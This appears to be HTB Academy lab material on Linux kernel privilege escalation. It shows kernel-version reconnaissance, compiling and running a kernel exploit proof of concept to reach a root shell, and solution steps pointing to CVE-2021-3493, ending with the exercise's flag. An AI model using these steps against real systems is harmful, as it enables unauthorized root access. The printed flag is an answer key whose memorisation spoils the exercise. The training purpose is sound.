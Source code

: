 Kernel level exploits exist for a variety of Linux kernel versions. A very well-known example is [Dirty COW](https://github.com/dirtycow/dirtycow.github.io) (CVE-2016-5195). These leverage vulnerabilities in the kernel to execute code with root privileges. It is very common to find systems that are vulnerable to kernel exploits. It can be hard to keep track of legacy systems, and they may be excluded from patching due to compatibility issues with certain services or applications.

Privilege escalation using a kernel exploit can be as simple as downloading, compiling, and running it. Some of these exploits work out of the box, while others require modification. A quick way to identify exploits is to issue the command `uname -a` and search Google for the kernel version.

Note: Kernel exploits can cause system instability so use caution when running these against a production system.

## Kernel Exploit Example

Let's start by checking the Kernel level and Linux OS version.

```shell-session
KaoruRyusaki@htb[/htb]$ uname -a

Linux NIX02 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```

```shell-session
KaoruRyusaki@htb[/htb]$ cat /etc/lsb-release 

DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04.4 LTS"
```

We can see that we are on Linux Kernel 4.4.0-116 on an Ubuntu 16.04.4 LTS box. A quick Google search for `linux 4.4.0-116-generic exploit` comes up with [this](https://vulners.com/zdt/1337DAY-ID-30003) exploit PoC. Next download it to the system using `wget` or another file transfer method. We can compile the exploit code using [gcc](https://linux.die.net/man/1/gcc) and set the executable bit using `chmod +x`.

```shell-session
KaoruRyusaki@htb[/htb]$ gcc kernel_exploit.c -o kernel_exploit && chmod +x kernel_exploit
```

Next, we run the exploit and hopefully get dropped into a root shell.

```shell-session
KaoruRyusaki@htb[/htb]$ ./kernel_exploit 

task_struct = ffff8800b71d7000
uidptr = ffff8800b95ce544
spawning root shell
```

Finally, we can confirm root access to the box.

```shell-session
root@htb[/htb]# whoami

root
```

Note: The target system has been updated, but is still vulnerable. Use a kernel exploit created in 2021.




#### Question

Escalate privileges using a different Kernel exploit. Submit the contents of the flag.txt file in the /root/kernel_exploit directory.

* Download the VPN file from the HTB Academy webpage
* Open your VM and go to your Downloads page from the terminal
* Run the command " openvpn academy-regular.ovpn " (if it doesnt work try running the same command with sudo)
* Use the user and password given by HTB and then SSH to the target system spawned for you by running this command "ssh htb-student@\<ip given>\"
* Run both commands " uname -a" and  " cat /etc/lsb-release  ", based on the information you will realize the kernel version of the shell is " linux 4.15 " and the OS is " Ubuntu 18.04.6 LTS "
* using that info on Google will find you a vulnerability with the reference CVE-2021-3493
* Look for the code and paste it in a file on the shell
* Compile it as " gcc kernelexp.c -o kernelexp " and run the script as "./kernelexp "
* As root, go to the folder " /root/kernel_exploits" and open the flag file
* 46237b8aa523bc7e0365de09c0c0164f